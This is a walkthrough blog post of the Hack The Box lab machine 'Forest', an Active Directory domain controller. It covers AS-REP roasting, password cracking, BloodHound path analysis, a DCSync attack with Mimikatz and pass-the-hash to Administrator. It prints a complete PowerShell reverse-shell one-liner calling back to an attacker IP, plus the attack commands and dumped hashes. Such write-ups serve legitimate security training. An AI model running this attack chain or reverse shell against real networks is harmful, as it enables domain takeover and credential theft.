

## Summary

Forest just retired today. Being my first AD box, I spent more than 20 hours on the root part, but I learned a lot of new things. Its IP address is  '10.10.10.161' and I added it to '/etc/hosts' as 'forest.htb'. Without further ado, let's jump right in!

## Scanning & User Enumeration

A light nmap scan was enough to get me started:



root@fury-battlestation:~/htb/blog/forest# nmap -sV forest.htb -oN scan.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-18 09:09 EDT
Nmap scan report for forest.htb (10.10.10.161)
Host is up (0.16s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-03-18 13:18:31Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=3/18%Time=5E721D8F%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 161.13 seconds
root@fury-battlestation:~/htb/blog/forest#



As this was a Windows AD server, there were a lot of open ports. I also ran enum4linux and managed to get a list of the users on the box:



root@fury-battlestation:~/htb/blog/forest# enum4linux forest.htb
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Wed Mar 18 09:15:54 2020

 ========================== 
|    Target Information    |
 ========================== 
Target ........... forest.htb
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
[...]
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
[...]



Users: sebastien, lucinda, svc-alfresco, andy, mark, santi.

## Shell as svc-alfresco

After a lot of trial-and-error, I came across [this cheatsheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a). I began running Impacket's GetNPUsers.py on all the users I've found previously and succeeded in getting a ticket-granting ticket (TGT) for svc-alfresco:


root@fury-battlestation:~/htb/blog/forest# locate GetNPUsers.py
/usr/share/doc/python-impacket/examples/GetNPUsers.py
root@fury-battlestation:~/htb/blog/forest# /usr/share/doc/python-impacket/examples/GetNPUsers.py -no-pass -dc-ip forest.htb HTB.LOCAL/svc-alfresco
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b4e50986c4bfb2b4287c271509bbbe89$361b1db344b953c042229ca217e36b51735b9d145b06546784b54a84c1a32cdf0f7978c43437dc713f2b15479a88d851e8d83a5dc3a286d7e691437a3bcdf7f01be34c53e29d88d25f546131e2398f928ba27d73610db19041239a9fef1c0ddf1454180349c9c1ead3fae1f7dd7d1b4dfb49ae5546c9010fc15ff1e82e61b35ace64ca64d76a0dbdfa892cdf652ef9055382e87232fc5db41adf6d40d4e044ad8def25171f2b2a8daa82a2903626d4e47c78ef3044fa7fdeccef4cb9d4790e52718bb480da5823f365fee92bb8a09e6348c38d852db5dc97b98fa9a598bb906f134d736a4fda
root@fury-battlestation:~/htb/blog/forest#


I then saved the ticket in a file named tgt.txt and proceeded to crack it with johnTheRipper:


root@fury-battlestation:~/htb/blog/forest# nano tgt.txt
root@fury-battlestation:~/htb/blog/forest# john tgt.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:06 DONE (2020-03-18 09:28) 0.1631g/s 666518p/s 666518c/s 666518C/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@fury-battlestation:~/htb/blog/forest#


The password for svc-alfresco was 's3rvice'. However, Windows doesn't come with any SSH server pre-installed, so I had to try various methods of authentication until I found one that worked: [evil-winrm](https://github.com/Hackplayers/evil-winrm)



root@fury-battlestation:~/htb/blog/forest/evil-winrm# ruby evil-winrm.rb -i forest.htb -u svc-alfresco -p s3rvice

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> dir ..\Desktop

    Directory: C:\Users\svc-alfresco\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        9/23/2019   2:16 PM             32 user.txt

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>



The user proof starts with 'e5' 😉

## BloodHound to the Rescue

As I said at the beginning of this article, I had zero experience in pwning Windows AD boxes. Luckily for me, someone recommended using [BloodHound](https://github.com/BloodHoundAD/BloodHound). BloodHound is now one of my go-to tools for privesc, so I really recommend you take the time to install it. While we are at it, if you run into issues with neo4j when installing it, use the following command to fetch and run a pre-made docker container:



docker run -p 7474:7474 -p 7687:7687 specterops/bloodhound-neo4j



Before using BloodHound, I upgraded my shell to a PowerShell one. There are many advantages in using PowerShell, and I can't imagine doing privesc without it. The following script spawns a reverse shell when it is run:


# Nikhil SamratAshok Mittal: http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html

$client = New-Object System.Net.Sockets.TCPClient("10.10.15.9", 443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()


I used evil-winrm's upload function to transfer the shell.ps1 script and then ran it:


*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload ./shell.ps1
Info: Uploading ./shell.ps1 to C:\Users\svc-alfresco\Documents\shell.ps1

                                                             
Data: 816 bytes of 816 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> ./shell.ps1


Once the reverse shell connected, I made sure the execution policy is set to bypass:



root@fury-battlestation:~/htb/blog/forest# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.15.9] from (UNKNOWN) [10.10.10.161] 57521
powershell.exe -nop -exec bypass
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Users\svc-alfresco\Documents> 
PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
PS C:\Users\svc-alfresco\Documents>



In order to use BloodHound, we need to give it some data. SharpHound is an utility that can generate this data by being run on the target machine and zip it. The only thing a user needs to do is to import that data into BloodHound by clicking the 'Upload Data' button. SharpHound comes in two flavours: an .exe file and a PowerShell script. The stand-alone executable didn't work for me in this case, so I used [the PowerShell version](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1). I uploaded it using evil-winrm:


*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload ./SharpHound.ps1
Info: Uploading ./SharpHound.ps1 to C:\Users\svc-alfresco\Documents\SharpHound.ps1

                                                             
Data: 1297080 bytes of 1297080 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 


Next, I switched over to my PowerShell shell, imported the module and ran it using the previously-found credentials:


PS C:\Users\svc-alfresco\Documents> Import-Module ./SharpHound.ps1
PS C:\Users\svc-alfresco\Documents> Invoke-BloodHound -Domain HTB -LDAPUser svc-alfresco -LDAPPass s3rvice -CollectionMethod All
PS C:\Users\svc-alfresco\Documents> dir

    Directory: C:\Users\svc-alfresco\Documents

Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
-a----        3/18/2020   7:00 AM          15258 20200318070022_BloodHound.zip                                                                                                                                                                           
-a----        3/18/2020   7:00 AM          23611 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin                                                                                                                                                    
-a----        3/18/2020   6:58 AM         972811 SharpHound.ps1                                                                                                                                                                                          
-a----        3/18/2020   6:51 AM            614 shell.ps1                                                                                                                                                                                               

PS C:\Users\svc-alfresco\Documents>


After downloading the resulting zip file and importing it in BloodHound, I chose the 'Find Shortest Path to Domain Admin' option and got the following graph:

The user I owned, svc-alfresco, was the node with a skull next to it (I added it by right clicking the node > 'Mark User as Owned').

## Understanding the Path to PrivEscu

There are a lot of edges, so I took some time to understand them:

* the MemberOf edge means a node is a member of another node. For example, svc-alfresco is a member of the 'PRIVILEDGE IT ACCOUNTS' group, which is a sub-group of 'ACCOUNT OPERATORS'.
* the GenericAll edge, in our case, means that svc-alfresco can do a lot of things to 'EXCHANGE WINDOWS PERMISSIONS', including adding users to that group.
* the WriteDacl edge is exploitable and I'll focus on it later.
* the Contains edge means that a group/sub-group contains another sub-group or user. In our case, the HTB.LOCAL domain contains the Administrator account.

Also, I created and switched to another account named yakuhito for two reasons:

* if there are other users on the box, I shouldn't spoil the fun
* svc-alfresco couldn't add himself to the 'EXCHANGE WINDOWS PERISSIONS' group for some reason

Let's get that root proof!

## EXCHANGE WINDOWS PERMISSIONS

For the next few steps, I used [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1). I started by first creating a new user named yakuhito:


PS C:\Users\svc-alfresco\Documents> Import-Module ./PowerView.ps1
PS C:\Users\svc-alfresco\Documents> New-LocalUser "yakuhito" -Password $(ConvertTo-SecureString 'yakuhito' -AsPlainText -Force)
PS C:\Users\svc-alfresco\Documents>


I then added yakuhito to 'Exchange Windows Permissions', as well as the 'Remote Management Users' group so I'll be able to connect to the new account via evil-winrm:


PS C:\Users\svc-alfresco\Documents> $Group = Get-ADGroup -Identity "CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local"
PS C:\Users\svc-alfresco\Documents> Add-ADGroupMember -Identity $Group -Members yakuhito
PS C:\Users\svc-alfresco\Documents> $Group2 = Get-ADGroup -Identity "CN=Remote Management Users,CN=Builtin,DC=htb,DC=local"
PS C:\Users\svc-alfresco\Documents> Add-ADGroupMember -Identity $Group2 -Members yakuhito



The next step was to connect as yakuhito using evil-winrm and re-upload my PowerShell shell:


root@fury-battlestation:~/htb/blog/forest/evil-winrm# ruby evil-winrm.rb -i forest.htb -u yakuhito -p yakuhito

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\yakuhito\Documents> upload ./shell.ps1
Info: Uploading ./shell.ps1 to C:\Users\yakuhito\Documents\shell.ps1

                                                             
Data: 816 bytes of 816 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\yakuhito\Documents>


## Exploiting WriteDACL

I was logged in as yakuhito, so I had WriteDACL permissions over the whole HTB.LOCAL domain. WriteDACL stands for Write Discretionary Access Control List. This right allowed me to perform a [DcSync attack](https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync) that got me Administrator's NTLM hash. To perform this attack, I also used [Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1).


PS C:\Users\yakuhito\Documents> Import-Module ./PowerView.ps1
PS C:\Users\yakuhito\Documents> Add-DomainObjectAcl -TargetIdentity htb -PrincipalIdentity yakuhito -Rights DCSync -Verbose 2>&1
PS C:\Users\yakuhito\Documents> Import-Module ./Invoke-Mimikatz.ps1
PS C:\Users\yakuhito\Documents> Invoke-MimiKatz -Command """lsadump::dcsync /domain:htb.local /user:Administrator"""

  .#####.   mimikatz 2.1 (x64) built on Nov 10 2016 15:31:14
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 20 modules * * */

mimikatz(powershell) # lsadump::dcsync /domain:htb.local /user:Administrator
[DC] 'htb.local' will be the domain
[DC] 'FOREST.htb.local' will be the DC server
[DC] 'Administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
User Principal Name  : Administrator@htb.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 9/18/2019 10:09:08 AM
Object Security ID   : S-1-5-21-3072663084-364016917-1341370565-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 32693b11e6aa90eb43d32c72a07ceea6

PS C:\Users\yakuhito\Documents>


## Connecting as Administrator

After getting Administrator's NTLM hash, I got stuck again. Fortunately, one of my friends reminded me that evil-wirm can also perform pass-the-hash attacks:


root@fury-battlestation:~/htb/blog/forest/evil-winrm# ruby evil-winrm.rb -i forest.htb -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> dir ..\Desktop

    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        9/23/2019   2:15 PM             32 root.txt

*Evil-WinRM* PS C:\Users\Administrator\Documents> 


The root proof starts with ‘f0’ 😉

If you liked this post and want to support me, please [follow me on Twitter](https://twitter.com/y
akuh1t0) 🙂

Until next time, hack the world.

yakuhito, over.
